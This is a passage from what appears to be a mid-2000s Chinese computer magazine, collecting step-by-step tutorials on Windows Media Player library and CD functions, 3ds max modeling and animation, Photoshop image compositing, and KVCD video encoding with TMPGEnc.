第二步:设置完毕，单击“搜索”按钮开始搜索，这可能需要花一段时间，搜索完毕，单击提示框中的“完成”按钮，本机上的媒体库就建立好了。这时单击WMP主界面上方的“媒体库”按钮，你会发现所有WMP支持的媒体文件，都被分门别类地放在了左侧窗格中。单击“所有音乐”、“所有电视”、“所有视频”等类别前面的加号“+”将它们展开，下面又列出了许多子类别，比如在“所有音乐”下面就又分出了“唱片集”、“作曲者”、“流派”、“发布年份”等子类。单击选中某一类别后，中间的窗格中就会显示出该类别下的所有媒体文件来，双击某一媒体文件就可以播放它了，如果双击的是视频文件，则WMP自动切换到“正在播放”窗口中。

第三步:以后当电脑中增加了新的影音文件时，不必每次都使用“搜索媒体文件”功能，那样太耗费时间了。在媒体库界面中，我们只要单击左下方的“添加到媒体库”按钮，从下拉菜单中选择“添加文件夹”(自动将所选文件夹中的所有文件加入)或“添加文件或播放列表”(只添加选中的文件)命令，就可以将新增的影音文件加到媒体库中了。

##### 小提示

单击“添加到媒体库”按钮，再选择“通过监视文件夹”命令，在打开的窗口中单击“添加”按钮，将你存放影音文件的特定文件夹添加到监视列表中，这样在有新的文件存入时，它们就会自动加到媒体库中。

第四步:影音文件中一般都会包括一些介绍性信息，比如MP3音乐中的ID3标签就含有歌曲标题、演唱者、流派、发行年代等信息，WMP正是通过这些信息将所有媒体文件分类的。我们也可以通过这些信息在“影音”中查找特定的文件。比如想找出收藏的所有王菲的歌曲，则可以在媒体库左上角的文本框中输入“王菲”，再单击其右侧的“搜索”按钮，不一会儿本机上所有王菲的歌曲或MV就会显示在中间的窗格中，双击就可以欣赏了。

第五步:如果WMP已经启动，则将音乐CD或VCD插入光驱时，它就会自动播放当前光盘上的内容。如果WMP没有启动，则插入光盘(比如是一张音乐CD)后会弹出一个对话框，单击其中的“播放音频CD 使用Windows Media Player”项，就可以自动启动WMP开始播放该CD了。

#### 实例3:打造个性化的精选集

收集了许多的MP3、WMA歌曲，不可能每天都从头到尾地听一遍，我们可能会因为心情的不同而只想听其中某些特定风格的歌曲，这时我们就可以多定制一些个性化的精选集，让播放的歌随时贴近我们的心境。

第一步:在WMP主界面上单击上面的“媒体库”按钮，然后单击最右侧的“选择列表选项”按钮(此时该按钮上显示的文字可能是“‘正在播放’列表”)，从下拉菜单中选择“新建列表→播放列表”，然后从中间的项目列表中选中自己喜欢的歌曲将其拖放添加到右侧的播放列表窗格中。

第二步:再次单击“选择列表选项”按钮，选择“将播放列表另存为”，在打开的对话框中为精选集播放列表取一个名称(如“英文金曲”)，单击“保存”按钮退出，这个列表将自动添加到左侧窗格“我的播放列表”类别中。使用同样的方法可建立多个精选集，以后可根据心情的需要，单击展开“我的播放列表”后再双击相应的精选集名称，就可以欣赏自己此时想要听的歌曲了。

第三步:如果想对已经创建好的播放列表进行修改，可在左侧类别窗格中展开“我的播放列表”，然后右键单击想要修改的播放列表，从右键菜单中选择“编辑”，即可在最右侧窗格中打开该列表。右击该列表中的某个歌曲，就可以从右键菜单中选择“从播放列表中删除”、“上移”、“下移”等操作了。我们也可以从中间的项目列表窗口中拖放一些新的歌曲加到要修改的列表中，编辑修改完毕，单击“选择列表选项”按钮，从下拉菜单中选择“保存播放列表”即可(见图3)。



##### 小提示

制作了多个精选集后，如果想以更快的速度播放它们，可先在桌面上创建一个文件夹(如“我的精选歌曲”)，然后在保存精选集播放列表文件的时候，可将其保存到“我的精选歌曲”文件夹中，以后直接进入该文件夹中，双击某一播放列表文件就可以立即播放相应精选集中的歌曲了。

## 实例4:听歌工作两不误

许多人都有一边听歌一边工作的习惯，但在桌面上打开WMP窗口，有时会影响到对其他窗口的操作。遇到这种情况时，可以将WMP切换到微型播放机模式，并将其集成到任务栏上。注意，此功能只在Windows XP/2003下可用。

- 第一步:在任务栏的空白处右单击鼠标，从弹出的菜单中选择“工具栏→Windows Media Player”。
- 第二步:单击WMP主界面右上角的最小化按钮，则工具栏上就会显示出WMP的微型播放机模式。
- 第三步:单击其右下角的还原按钮，可恢复到正常模式。

## 实例5:各取所需 音乐CD和MP3互相转

现在生活中，有些人总会有一些相反的需求，比如拥有CD唱机的人总是希望将下载的MP3歌曲转录到音乐CD上，而拥有MP3的人则希望把音乐CD翻录成MP3。非常幸运，这两件事WMP都可以做。

### 1. 音乐CD翻录成MP3

- 第一步:启动WMP，将CD插入光盘中，将会自动播放该CD，单击“停止”按钮停止播放。
- 第二步:单击主窗口上方的“翻录”按钮，则CD中的所有歌曲都被显示在中间的列表窗格中，并自动为全部选中状态(见图4)。只保留对想要翻录的歌曲勾选，点击那些不想翻录的歌曲前面的复选框，使其中的勾号消失。选择好之后，单击工具栏上的“翻录音乐”按钮，弹出翻录选项对话框，点选“保留当前的格式设置”项，然后单击“确定”就可以了。



- 第三步:翻录好的MP3文件会自动加到媒体库中，单击“媒体库”按钮返回，再双击中间窗格中翻录成功的MP3歌曲就可以欣赏它了。

### 2. 将MP3转刻成音乐CD

- 第一步:将空白的刻录盘插入刻录机中，然后单击WMP主界面上的“刻录”按钮，进入刻录窗口。单击其工具栏上的“编辑播放列表”按钮，打开编辑列表对话框。如图5所示，单击“媒体库查看方式”下拉按钮，可以选择媒体库中不同的类别，然后再双击下面列表框中需要刻录到CD的MP3文件，将其加到右侧的刻录列表中。
- 第二步:选好所有的歌曲后单击“确定”按钮返回，再单击工具栏上的“开始刻录”就可以了。



## 为Windows Media Player插上翅膀

### 实例1:影音文件 大小通吃

如果没有安装解码器，WMP将不支持DVD、MPEG4、RMVB等非常流行的影音文件，这不能不说是一大遗憾。如果一个一个地从网上下载不同的解码器，又太麻烦了。怎么办?还是请K-Lite Codec Pack来帮忙吧。

- K-Lite Codec Pack小档案
软件版本:2.41 Full
软件大小:9711KB
软件性质:免费软件
应用平台:Windows 9X/2000/XP
下载地址:http://nj.onlinedown.net/soft/15531.htm

- 第一步:首先下载安装K-Lite Codec Pack，安装过程进入Select Components(选择组件)界面时注意根据需要勾选适当的选项，如“DivX; MPEG-4 Low and Fast motion”、“Cyberlink DVD decoder”等项一定要勾选上，这样WMP才能支持DVD、MPEG-4电影的播放。在进入Select Additional Tasks(选择其他任务)中，要全选上“Make Windows Media Player the default player for”项。
- 第二步:安装好K-Lite Codec Pack之后，直接在资源管理器里双击相应的影音文件(如RMVB格式的电影)就能启动WMP并播放了。
- 第三步:如果要播放DVD，在将DVD盘片插入光驱后，如果WMP已经启动，则直接播放DVD;如果WMP还没有启动，则系统会弹出一个提示对话框，双击其中的“播放DVD视频 使用Windows Media Player”项即可启动WMP开始播放;如果放入DVD光盘后没能自动启动，则可以手工启动WMP，单击“正在播放”按钮右侧的小三角形按钮，从下拉菜单中点选DVD驱动器即可播放。

### 实例2:Windows Media Player 也玩卡拉OK

在WMP中，我们可以轻松地为MP3歌曲配上歌词，这样一边听歌一边跟着歌词哼唱，绝对是一件非常享受的事情。

- 第一步:首先要开启WMP的字幕功能，右键单击WMP标题条，在右键菜单中选择“播放→字幕→开”。
- 第二步:在WMP的媒体库中右键单击需要添加歌词的歌曲，从右键菜单中选择“高级标记编辑器”，在打开的编辑器窗口右侧单击“歌词”选项卡。单击“添加”按钮，将显示出一个歌词框，将“语言”设置为“中文(中国)[zh-cn]”项，再把歌词粘贴到下面的文本框中即可。
- 第三步:单击“确定”按钮返回主界面，双击刚才添加了歌词的歌曲播放，再切换到“正在播放”界面中，就可以看到刚才添加的歌词在氛围效果的下面显示出来了。
- 第四步:从9.0版开始，WMP增加了歌词同步的功能，它能随着演唱者的节奏一句一句显示歌词，效果非常不错。在高级标记编辑器的歌词选项卡中粘贴上歌词后，单击右下角的“同步显示歌词”按钮，即可打开同步显示歌词对话框。每一行歌词前面已经自动加上了时间戳，时间戳在下方的时间轴上显示为一条垂直线，拖动时间戳即可调整歌词出现的时间了。可单击右侧的“播放”按钮，边听边调整每行歌词的时间戳位置。

(北京 一页)

## 从静物到科幻大片——3ds max上手指南

当前比较流行的专业三维动画创作软件当数3ds max了，它被广泛应用于游戏动画、影视广告、家装设计、建筑设计、园林规划、工业造型等领域中，而且现在越来越多的其他行业也开始使用它，比如医学、军事、地理等。然而3ds max那高高的门槛却使许多人望而生畏，不敢迈入。今天，就让我们通过几个有趣的实例，揭开3ds max神秘的面纱。本文所涉及到的素材及源文件可在http://www.newhua.com/cfan/200507/3ds.rar处下载。

注意：本文以3ds max 7.0为例，兼容3ds max 5.0/6.0。

### 实例1:岁月流痕——亲手制作一个陶罐

#### 1. 建立模型——Lathe(旋转)编辑修改器的应用

本例中，我们首先创建出陶罐的二维切面线条，再通过Lathe编辑修改器使它围着一个轴旋转360度，从而产生立体的模型，最后再给它贴上纹理图即可。

- 第一步:启动3ds max，默认情况下3ds max显示出4个视图，代表观察物体时的不同角度:左上角为Top视图(顶视图)，即从上向下俯视物体时的效果;右上角为Front视图(前视图)，在物体正前方水平观察时的效果;左下角为Left视图(左视图)，即从物体左侧水平方向观察的效果;右下角为Perspective视图(透视图)，这是最接近真实生活中对物体的观察。
- 第二步:如图1所示，进入到Create(创建)命令面板中的Shape(形状)子命令面板。单击Line(直线)按钮，然后在Front视图中连续单击鼠标即可画出连线图形来，当终点与起点重合时，将会弹出一个窗口提示“Close spline?”(是否关闭线条)，单击“是”按钮，一个封闭的二维图形就画好了。
- 第三步:接下来对画好的图形进行一些修改，使其变成平滑曲线。对于在Create命令面板中建立的对象，如果要修改其参数，可以进入Modify(修改)命令面板中来完成。如图2所示，进入Modify命令面板中，单击展开Selection(选择集)卷展栏，并单击Vertex(节点)按钮，这时在刚才所画的图形上就会出现一些十字形节点。然后我们单击选中主工具栏中的Select and Move工具(移动工具，即十字形箭头图标)，用鼠标右击某个节点，在弹出的右键菜单中选择Smooth(平滑)命令即可将直线变成平滑的曲线。按照上述方法，对每个节点都进行平滑处理，接着再利用移动工具，拖动调整好各个节点的平滑度及其位置，最终效果如图3所示。
- 第四步:下面开始学习Lathe编辑修改器的使用方法。在Modify命令面板中的Modifier List(编辑集列表)下拉列表中选择Lathe编辑修改器，从场景中可以看到二维曲线图已旋转成为三维物体了。如果这个三维物体的形状和我们所期望的形状不太相符，可以调整 Lathe 编辑修改器的 Parameters(参数)卷展栏中的各项参数修改它，下面认识一下其中几个主要参数。





- Degrees(角度):旋转的角度，默认值为 360 度，如果不够 360 度则产生的是一个有缺口的“破陶罐”；
- Segment(线段):旋转所获得的曲面分段数，分段数越高，所获得的曲面越光滑，这里我们设置为 32；
- Direction(方向):旋转轴的方向。当发现通过 Lathe 旋转的结果和所期望的结果完全不同时，多半是这里没有设置好，在这里选择 Y 轴作为旋转轴。
- Align(对齐):如果上述设置还没有达到预期效果，可以在这里选择并设置旋转轴和剖面线的对齐方式。
- Output(输出):输出选项组用来决定最后得到的旋转体的表面形式，本例选择的是默认选项。





#### 2. 材质贴图——Bump(凹凸)贴图的应用

现实生活中大家看到过的泥陶罐，它的表面并不是很光滑，而是摸起来有种凹凸不平的感觉，在 3ds max 中要想体现出这种凹凸不平的效果可以使用 Bump 贴图。

- 第一步:点选主工具栏上的 Select Object(选择)按钮(白箭头图标)，单击选中场景中的陶罐物体对象，然后单击主工具栏中的 Material Editor(材质编辑器，四个小圆球图标，快捷键为 M)按钮打开材质编辑器。点选一个空白的材质球，并展开 Blinn Basic Parameters(反射基本参数)卷展栏。单击 Diffuse(漫反射)后面的颜色框，设置 Diffuse Color(表面色)为 RGB(247、196、89)，如图 5 所示。





小提示 材质编辑器按钮在 3ds max 主工具栏的右侧，因为工具栏比较长，这一部分有可能没有显示出来。我们可以将光标移到主工具栏的空白处，当光标变成小手的形状时，按住鼠标左键向左拖动，就可以把工具栏上其余的按钮拖出来了。

- 第二步:接下来展开 Maps(贴图)卷展栏，单击选中 Bump 选项，设置 Bump 的 Amount(程度)值为 50。然后单击 Bump 贴图通道右侧的 None 按钮，在弹出的 Material/Map Browser(材质/贴图浏览器)对话框中选择 Noise(噪波)贴图。
- 第三步:在弹出的 Noise Parameters (噪声参数)卷展栏中将 Noise 的类型设置为 Fractal(碎片), Size(大小)设置为 1.5，如图 6 所示，然后单击工具栏中的 Go to Parent 按钮返回到上一级。单击材质编辑器工具栏中的 Assign Material to Selection(将材质关联到对象)按钮(左起第 3 个图标)就可以将材质赋予陶罐了。



#### 3. 美化场景——灯光的处理

为了更好地表现出材质效果，我们来给场景添加上灯光效果和木头地板作为映衬。

- 第一步:为了方便后面操作，我们要熟悉一下主界面最右下角视图调节区的几个观察工具的使用，其中共有 8 个工具，比较常用的有:上一行第一个图标(放大镜图标), Zoom(缩放)工具，点选它之后，在任一视图窗口内拖动，即可放大或缩小显示视图内的物体；上一行第四个图标，Zoom Extents All 工具，单击它之后，所有视图中的物体都能整体显示出来；下一行第二个图标， Pan View 工具，视图内的物体放大后，可使用它拖动画面以显示不同的部分；下一行的最后一个图标， Maximize Viewport Toggle(最大化视图)工具，单击它可隐藏其他三个视图而使当前视图放大显示，这在进行绘画操作时非常有帮助，再次单击它又会返回原来的显示模式。注意，这些工具只改变显示效果，不会实际改变创建物体的真正大小。
- 第二步:点选右下角的 Zoom(缩放)工具，在 Top 顶视图中由上往下拖动鼠标，适当缩小该视图中的物体，然后切换回 Create 命令面板中，进入它的 Geometry(三维物体)子命令面板，单击其中的 Box(立方体)按钮，在 Top 视图中按住鼠标左键不放拖出一个矩形，放开鼠标键后再移动鼠标(向下或向上)将确定立方体的厚度，可在 Left 或 Front 视图中实时看到效果，感觉厚度差不多时就单击一下鼠标，一个立方体地板就创建成功了。在 Left 或 Front 视图中，使用移动工具将地板拖到陶罐的下方，如图 8 所示。
- 第三步:展开 Maps 卷展栏，单击 Diffuse 选项后面的 None 按钮，打开材质/贴图浏览器，双击 Bitmap 项，在弹出的对话框中选择一幅木纹图片并打开，然后单击材质编辑器工具栏中的“将材质关联到对象”按钮将该材质赋予地板。
- 第四步:关掉材质编辑器，接下来给场景添加上灯光效果。进入到 Create 命令面板中的 Lights(灯光)子命令面板中，单击 Target Spot(目标聚光灯)按钮，在 Front 视图中的左右斜上方由上向下各拖出一盏目标聚光灯来对准陶罐，然后在命令面板的下方展开 General Parameters(基本参数)卷展栏，在 Shadows(阴影)区域中选中 On 复选框，打开灯光的阴影效果(灯光建好后，也可以在 Modify 面板中进行修改)。大家可以利用移动工具来调整灯光的位置，以便达到最佳的场景效果(见图 9)。





#### 4. 渲染输出——最终完成作品

- 第一步:点选 Perspective 视图，我们将渲染该视图中的场景。
- 第二步:执行菜单命令 “Rendering → Render” 打开 Render Scene(渲染场景)对话框，单击 Common(公用)标签，展开其中的 Common Parameters(公用参数)卷展栏，在 Time Output(时间输出)区域中选择 Single(单张)选项，然后向上拖动面板，在出现的 Render Output(渲染输出)区域中，单击 Files 按钮，在打开的对话框中设置要输出的文件名、输出的类型(因为前面选择了 Single 项，这里只能设置为静态图片格式，如 BMP、JPG 等)，以及输出的路径位置，最后单击“保存”按钮并返回。
- 第三步:参数设置完毕，单击面板最下方的 Render 按钮将场景渲染输出就可以了(本例选择的是 BMP 图形格式)。如图 10 所示，是本例的最终效果图。



### 实例2: 奇幻的宇宙

科幻电影经常有这样的镜头:当宇宙飞船加足马力进入到时光隧道高速飞行时，周围大大小小的星体有如流星一般向后飞逝……这样的场景完全可以在 3ds max 中实现，接下来就让我们体验一下 3ds max 强大的动画制作功能。如图 11 所示，是本例最终效果中的一个截图。



#### 1. 创建美丽的地球和月球

- 第一步:启动 3ds max，进入到 Create 命令面板中的 Geometry 子命令面板，单击 Sphere(球体)按钮，在 Top 视图中拖画出一个球体。
- 第二步:选中刚刚创建的球体，按快捷键 M 打开材质编辑器。选中一个空白的材质球，再展开 Blinn Basic Parameters(反射基本参数)卷展栏，在 Specular Highlights(镜面高光)栏中设置:Specular Level(高光强度)为 40; Glossiness(光泽效果)为 20; Soften(柔化)为 0.5;在Self-Illumination区域中,将Color参数值设置为100。
- 第三步:接着展开Maps(贴图)卷展栏,单击选中Diffuse(漫反射)项,并点击其后面的None按钮,打开材质/贴图浏览器,双击Bitmap项,在弹出的对话框中找到并打开已准备好的一张平面地球图片(本例所选图片为3ds max 7完整安装版Map目录下Space目录中的EarthMap.jpg文件)。点击材质编辑器工具栏中的Show Map in Viewport(在视图区显示贴图,左起第9个图标)按钮,接着再单击材质编辑器工具栏中的Go to Parent(转到上级)按钮,返回到材质编辑器的顶层。
- 第四步:为星球建立凹凸不平的表面。在Maps卷展栏Diffuse右侧的按钮上(此时该按钮上的文字已由None变成了图片文件的名称)按住鼠标左键不放,将其拖到Bump右侧的按钮上,这时会出现一个"Copy Instance"(复制实例)对话框,选择Copy项,点击"确定"按钮即可。设置完毕后,点击材质编辑器工具栏中的"将材质关联到对象"按钮,将材质赋予地球球体对象。
- 第五步:再创建一个小一点的球体作为月球,它与地球的创建过程相似,不过贴图的时候要选择不同的图片,本例选择的是Space目录中的MOON.jpg文件。

#### 2. 添加灯光效果

- 选择Create命令面板下的Lights子命令面板,单击其上的Omni(泛光灯)按钮,在Top视图中不同的地方点击几次,创建多个泛光灯用以照亮这两个星球。设置完毕可以单击一下主工具栏中的快速渲染按钮,渲染观看。

#### 3. 制作星球自转动画

- 第一步:在Perspective视图中选中地球球体对象。
- 第二步:按主界面下方的Auto Key按钮启动自动动画记录,然后拖动时间轴滑块到100/100处,单击主工具栏中的"Select and Rotate"工具(旋转工具,即弯曲的箭头图标),在Perspective视图中拖动地球球体旋转一周(见图12)。
- 第三步:再次单击Auto Key按钮关闭动画记录,然后单击一下Play Animation按钮(播放动画,右下角播放控制按钮中的黑三角图标,点击后它将变成暂停按钮),就可以观看一下地球自转的效果了。按照同样的方法可以设置月球自转的动画。



#### 4. 制作星球公转动画

- 第一步:单击暂停按钮停止动画预览,在Create命令面板的Shapes子命令面板中单击Ellipse(椭圆形)按钮,然后在Top视图中画出一个以地球球体对象为中心的椭圆形来。
- 第二步:选中月球球体对象,接着再选择Motion(运动)命令面板,单击Parameters(参数)按钮,并展开Assign Controller(分配控制器)卷展栏,可以看到它所显示的是各种运动控制器类型列表。从中选择"Position: Position XYZ",接着单击其左上角的Assign Controller按钮(见图13),在弹出的对话框中选择Path Constraint(路径限制)控制器,单击OK按钮返回。



- 第三步:这时在运动命令面板中就会出现Path Parameters(路径参数)卷展栏,单击Add Path(添加路径)按钮,再在视图窗口中单击选中刚刚所画的椭圆形,这个圆形对象的名称会自动加到Path Parameters下的Target列表中,月球对象就被自动附着在这个椭圆形路径上了。接着按下Auto Key按钮,然后将时间轴滑块拖到100/100处,用选择工具将月球球体对象向右方移动一点,关闭Auto Key按钮;点击播放按钮就可以看到月球沿着椭圆形轨迹从左向右绕着地球运行了。
- 第四步:执行菜单命令"Rendering→Environment"(渲染→环境)打开环境对话框,展开Common Parameters(公用参数)卷展栏,在Background(背景)栏中点击None按钮,打开材质/贴图浏览器,双击Bitmap项,选择Space目录下的Sig10.jpg文件并打开,然后关闭环境对话框。
- 第五步:点选Perspective视图,我们将渲染该视图中的场景。执行菜单命令"Rendering→Render"打开Render Scene(渲染场景)对话框,单击Common(公用)标签,展开其中的Common Parameters(公用参数)卷展栏。与上一个实例不同,本例要输出的是动画,所以在Time Output(时间输出)区域中选择"Range 0 to 100"。然后向上拖动面板,在出现的Render Output(渲染输出)区域中单击Files按钮,在打开的对话框中设置要输出的文件名、输出的类型(本例需选择AVI动画格式)以及输出的路径位置等,最后单击"保存"按钮并返回。单击面板最下方的Render按钮,将场景渲染输出为动画文件,就可以在Windows Media Player之类的媒体播放器中打开欣赏它了。

(吉林 图们月长圆)

## Photoshop中绘丹青 不是画家一样能泼墨

编者按:看到徐先生发来的鼠标绘画作品，起初有些犹豫:做出如此美轮美奂的绘画作品(见图1),一定需要相当的绘画功底,但本刊的读者来自各行各业,真正学过画画的恐怕不多,这对广大读者来说,是否难度太高?但看完徐先生所写的教程,发现他的方法正好可以针对没有太多绘画基础又对此感兴趣的读者,通过所介绍的"元件合成法",一定能轻松创作出自己的形式多变的美图来。



可以用来画画的软件有多种,比如,Windows自带的"画图"软件就是其一,专业图像处理软件Photoshop和Fireworks等就更好一些。特别是Photoshop,借助它提供的各种工具,可以弥补画技方面的不足,简化作画难度,即使不具备较好的美术功底,也可以用鼠标画出比较美观的图片来。特别值得指出的是,用Photoshop能画出一幅幅单个的、背景透明的图形元件,然后再用这些图形元件拼出多种其他图片来。如果用这些元件做动画就更方便了,效果相当好!现在,就让我们通过用鼠标画丹顶鹤的具体实践,体验一下吧。

本文所涉及到的图片素材、最终效果文件以及作者其他的一些精美图片作品,大家可以到http://www.newhua.com/cfan/200507/photos.rar下载。

- 第一步:他山之石可以攻玉。对大多数不具备美术基础的电脑爱好者而言,直接用鼠标作画是非常困难的,这时,可以从其他图片中获得原始素材,再经过各种加工、组合,创作出自己的绘画作品来。
启动Photoshop,在空白处双击鼠标(或点击菜单"文件→打开")调出打开对话框,选中一个有丹顶鹤内容的图片文件,双击它将其打开(见图2)。



- 第二步:单击菜单"滤镜→抽出"(快捷键为Ctrl + Alt + X)调出抽出对话框(见图3),首先用边界高亮工具将丹顶鹤的轮廓勾画出来,该工具笔刷的大小可在窗口右侧的"Brush Size(画笔大小)"项中根据实际情况适当调整,本例中设置为3。如果勾画得不够精确,可使用橡皮擦工具擦掉重画。还可以使用缩放工具放大图像,这样勾出的轮廓更精确。图像放大后,有些部分就看不到了,这时可通过手形工具拖动图像以操作不同的部分。注意,最后勾出的轮廓一定要是一个封闭的图形(见图3)。



选中填充工具,在画好的轮廓内点击一下,轮廓内将填充上半透明的蓝色,这时对对话框右上角的“Preview（预览）”按钮将变成可用状态。单击它之后，可以预览到丹顶鹤从背景图中抽取出来的效果。如果对抽取效果不满意，可将“Preview（预览）”选项框内的“Show（显示）”项重新设置为“Original（原稿）”，然后重新编辑；如果对效果满意的话则单击“OK（好）”按钮返回Photoshop主窗口中，这时你会发现丹顶鹤已经从背景图中剥离出来了。单击菜单命令“文件→另存为”，重新命名，将图片保存为PSD格式的文件。

- 第三步：抽取出来丹顶鹤后，就可以在这幅图片的基础上略加修改，加工出一系列姿态各异的丹顶鹤来。比如，素材中的鹤是张开翅膀的，可以用套索工具把翅膀选取出来并按Delete键删除掉（在删除之前最好执行“选择→羽化”命令并设置3个像素的羽化，这样效果会更自然一点）；最后再用画笔工具对删改后的翅膀及尾羽修饰一下，一个新的收着翅膀的丹顶鹤图片就完成了（见图4）。



- 第四步：还可以用套索工具圈选鹤的腿部或头部，然后点击菜单命令“编辑→自由变换”（快捷键为Ctrl+T），这时选区四周会显示8个节点，拖动节点可改变所选图像部分的大小，在选区范围内拖动鼠标可移动所选图像的位置。将光标移到选区之外时，光标将变成弯曲的双箭头状，此时拖动鼠标可进行旋转操作。对选取的部分进行移位或旋转等操作后，再用画笔工具进行必要的补画修改，就又能做出几张画面略有不同的图片来（见图5）。



- 第五步：借鉴上面方法，可以制作出姿态各异的一系列丹顶鹤图片来（见图6）。Photoshop还提供了其他多种工具，比如橡皮擦、仿制图章、涂抹、锐化、模糊等，在“滤镜”菜单中也提供了多种图片变形、加工命令，在进行图片改画的过程中，大家可根据需要选用。


图片1是绘制的原始图片，图片2将翅膀改画成双翅合拢形状，图片3将腿改画成直立，图片4将另一腿改画为抬起，图片5使鹤的头颈向上稍微抬起，图片6中头部进一步上抬，图片7中头部后缩，鹤嘴张开，图片8中伸头长鸣。

> 小提示
用类似方法，还可以获取其他一些图形元件（如其他动物、植物、山石等）。这些图形一定要在透明的图层中进行绘制，这样方便以后进行各种组合。保存的时候要将它们存为PSD或PNG格式，才能保存图片中的透明背景。

- 第六步：现在就可以将刚才制作的图形元件合成图片了。在Photoshop上新建一个图片文档，用填充工具设置好图片的背景色，然后根据需要使用移动工具（快捷键为V）将刚才制作的具有透明背景的图片元件（姿态不同的各种鹤）直接拖到新图片文档中即可。每个拖过来的图片元件都会在新文档中自动建一个新图层，所以我们可以用移动工具或自由变换工具（快捷键为Ctrl+T）随意调整各元件的位置、大小和方向。如有必要，还可以通过菜单“图像→调整”下的多个命令对丹顶鹤图的整体亮度、对比度和色调进行调节，再添上其他的装饰图案，打上文字，一幅由我们自己创作的绘画作品就完成了（见图7）。



如果在风景图片中根据需要添加我们自己制作的各种图形元件，效果会更加精彩（见图8）。这些图形元件还可以运用到Flash中，从而制作出美妙的动画效果。



(河北 徐金田)

## 挑战极限！制作220分钟的VCD光盘

一张700MB容量的普通光盘能刻录多长时间的VCD视频？80分钟还是更短？如果我说最多能够刻录360分钟，而且画面质量并不比普通VCD差，可能你会说那是用的RMVB格式吧？如果我说这张盘还能在VCD/DVD影碟机上播放，而且用的就是普通VCD使用的MPEG编码，你相信吗？看了下面的文章，你自然就会明白了。

### 1. 了解KVCD

首先可以肯定地告诉大家，这种技术是存在的，它的名字叫做KVCD。它并不是一种新的压缩编码技术，而是基于MPEG1压缩算法的一种非标准VCD编码方式。

我们知道，标准VCD编码采用的是MPEG1算法，码率固定为1150Kbps。正常情况下，一张700MB容量的光盘只能刻录60分钟左右的标准VCD视频，所以一部完整的电影至少需要两至三张光盘才能放下。那为什么同样采用MPEG1算法的KVCD却可以装下这么长时间的视频呢？其实很简单，大家都知道RMVB与RM的区别吧，关键就是后面多出的两个字母“VB”，它的意思是Variable Bitrate，即动态编码。它可以根据不同的视频画面智能改变压缩码率，当出现高速运动及变换画面时，它会自动采用高码率压缩来更好地表现细节，而当画面静止时，它又会自动采用低码率编码减少生成的文件体积，这样就能实现在较小的体积下获得自始至终的清晰画面。现在，动态编码技术在许多音视频压缩编码中都得到了广泛的应用，这里的KVCD实际上就是一种基于MPEG1算法的动态编码方式。

### 2. KVCD模板介绍

为了使用方便，KVCD的作者设计了专用的编码模板文件，这些模板使用在大家熟知的MPEG压缩品质最好的软件TMPGEnc Plus上，并通过优化的动态码率和修正的量化矩阵来压缩编码，从而保证了生成的视频质量。

KVCD的编码模板文件可以从http://kvcd.net/dvd-models.html页面获得，在页面中有许多不同压缩质量的模板，右击带有下划线的模板名称，选择“另存为”即可把这些扩展名为MCF的模板文件保存到硬盘中，注意我们国家使用的电视多是PAL制式，需要下载对应行中的模板。

这里的模板文件按照不同的类型分别以红、绿、蓝背景显示（见图1），其中红色背景中的模板是最经常用到的。判断模板生成的视频质量的标准是700MB容量光盘可以刻录的视频时间长度，其中“352x288 ULBR”就是最多可以在一张700MB容量光盘上刻录360分钟视频的模板，不过这是理论值，从实际使用情况来看很难达到这个数值，一般情况下可以做到150分钟~220分钟，常用来作为刻录电视剧的模板；“352x288 LBR”是180分钟模板，这个非常适合编码普通长度的电影；“352x288”是120分钟模板，其编码质量比前两个模板要好一些；“352x576”是120分钟中高分辨率视频编码模板；“704x576”模板编码生成的视频接近DVD分辨率，即使这样，也可以在普通CDR光盘上刻录将近90分钟的高品质视频。



> 小提示
除以上这些常用KVCD模板外，页面中还提供有其他类型的模板，例如“352x576”模板编码生成的视频质量接近SVCD，这个模板则是基于MPEG2算法编码的，还有蓝色背景显示的DVD模板都可以制作出基于MPEG2算法，接近DVD质量的高品质视频，利用这些模板编码生成的视频文件体积同样比标准的SVCD/DVD编码小很多。

虽然KVCD相对于RMVB、Divx等编码格式最大的优势就是兼容性好，可以在普通影碟机上播放，而不是必须在电脑上才能观看，但相对于标准VCD来说，它的兼容性就稍逊一筹了。由于KVCD采用了动态码率，所以只有部分近几年生产的VCD影碟机上才能正常播放，不过在DVD影碟机就没有兼容性问题了，笔者测试的近10台DVD影碟机都能正常播放KVCD编码格式的光盘，现在DVD影碟机淘汰VCD影碟机已是定局，所以兼容性问题也基本算是没有了。

### 3. KVCD影碟制作实战：RMVB文件刻录KVCD

本刊2005年第6期《只要改个名 RMVB就变VCD》中介绍过使用Nero直接把RMVB电影刻录成VCD的方法，不过使用Nero直接转换的VCD画面品质不高，而且它使用的是标准VCD编码，体积很大，一部电影需要两张碟片，这里介绍使用KVCD编码把RMVB制作为VCD影碟的方法，当然，这种方法也完全适用于其他视频格式转换为KVCD。

- 第一步：安装RMVB解码器，推荐安装阿飞的Real解码器，下载地址为http://afly.ogg.cn/blog.php?job=art&articleid=a_20041031_042727。这一步很关键，许多RMVB格式不能转换的问题都是解码器造成的。

> 小提示
如果电脑已经安装暴风影音等软件，可以观看RMVB视频，则不必安装Real的解码器，直接进行第二步。

- 第二步：使用TMPGEnc Plus转换RMVB格式视频，必须使用2.54或2.53版本，其他版本在转换时不能提取音频信息，会导致转换后的视频没有声音。大家可以从http://www.ayxz.com/down.asp?id=4849&no=1下载到TMPGEnc Plus2.54版。

- 第三步：安装后运行TMPGEnc Plus，会弹出“项目向导”对话框，直接关闭该对话框，然后在主界面中单击“输入影像”栏的“浏览”按钮，在弹出的“打开”对话框中先设置“文件类型”为“所有的文件（*.*）”，就可以选择要转换的RMVB文件了，这时在“输入声音”栏中会自动添加好同样的RMVB文件路径（见图2），注意，如果这时提示“文件不能被打开或支持”，则说明你没有正确安装RMVB解码器。



- 第四步：从http://kvcd.net/dvd-models.html页面中下载180分钟的“352x288 LBR”模板文件“KVCD-LBR-352x288_PAL_PLUS.mcf”，然后在TMPGEnc Plus界面中单击“读取”按钮，选择这个模板文件。这时默认的“码流类型”设置是“Video only”，也就是只转换视频，所以这里一定要选择“System（Video+Audio）”选项（见图3），这样才能转换出既有画面又有声音的电影。

- 第五步：KVCD模板中并没有对音频进行配置，所以这里我们要对音频参数进行设置。单击“设定”按钮，然后单击“音频”标签，“码率”可以根据你的要求进行重新配置，较小的码率可以进一步减少编码生成的文件体积，不过软件默认的“声道模式”是“Dual channel”，一定要修改为“Stereo”立体声模式（见图4），否则音频效果会大打折扣。最后单击“确定”按钮保存设置。



